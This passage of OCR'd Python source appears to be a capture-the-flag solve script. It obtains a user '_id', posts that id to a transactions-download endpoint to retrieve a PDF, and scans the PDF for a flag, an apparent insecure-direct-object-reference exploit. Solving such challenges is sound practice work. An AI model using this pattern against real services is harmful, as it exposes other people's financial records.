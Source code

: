 ```python
    except Exception:
        print("[-] Inquiry did not return valid JSON.")
        return None

    _id = j.get("_id")
    if _id:
        print(f"[+] Got the user _id: {_id}")
        return _id

    print("[-] Could not find _id in inquiry response.")
    return None

def download_transactions_pdf(session: requests.Session, base_url: str, user_id: str, out_path: Path) -> bool:
    """Post to download-transactions and save the returned content to out_path. Returns True on success."""
    url = base_url.rstrip("/") + "/api/v1/transactions/download-transactions"
    payload = {"_id": user_id}
    try:
        resp = session.post(url, json=payload, timeout=30, stream=True,headers=headers)
    except requests.RequestException as e:
        print(f"[-] Download request failed: {e}")
        return False

    if not resp.ok:
        print(f"[-] Download failed: {resp.status_code} {resp.text.strip()[:300]}")
        return False

    try:
        out_path.parent.mkdir(parents=True, exist_ok=True)
        out_path.write_bytes(resp.content)
        print(f"[+] PDF saved to: {out_path}")
        return True
    except Exception as e:
        print(f"[-] Failed to write PDF: {e}")
        return False

def extract_flag_from_pdf(pdf_path: Path):
    """Extract text from the PDF and search for a flag. Returns list of matches (may be empty)."""
    if not pdf_path.exists():
        print("[-] PDF file does not exist.")
        return []

    try:
        reader = PdfReader(str(pdf_path))
    except Exception as e:
        print(f"[-] Failed to open PDF: {e}")
        return []

    full_text = []
    for i, p in enumerate(reader.pages):
        try:
            text = p.extract_text() or ""
        except Exception:
            text = ""
        if text:
            full_text.append(text)

    joined = "\n".join(full_text)
    matches = FLAG_REGEX.findall(joined)
    # FLAG_REGEX may capture duplicates or partial groups; normalize
    normalized = []
    for m in matches:
```